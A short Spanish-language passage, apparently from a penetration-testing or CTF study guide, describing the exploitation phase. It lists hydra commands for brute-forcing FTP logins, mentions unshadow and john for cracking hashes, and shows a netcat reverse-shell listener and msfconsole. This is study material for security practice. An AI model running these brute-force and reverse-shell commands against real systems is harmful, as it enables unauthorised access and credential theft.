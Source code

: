 En esta fase es en la cual debes aprovechar de los resultados anteriores obtenidos, con esos resultados podrás buscar posibles exploits o maneras de aprovecharte de ellos, como por ejemplo:

- **FTP -Fuerza-Bruta:
```

		- hydra -l admin -P passlist.txt ftp://192.168.0.1
		- hydra -L userlist.txt -P passlist.txt ftp://192.168.0.1
```

Nota: Después de encontrar lo que te solicitan podrías necesitar unshadow y john

- **Reverse-Shell

Si te basas en los resultados anteriores y te ayudas de Google o searchsploit necesitarás:

- **Nc
```

		- nc -nlvp 443

```
- **Metasploit
```

		- msfconsole

```

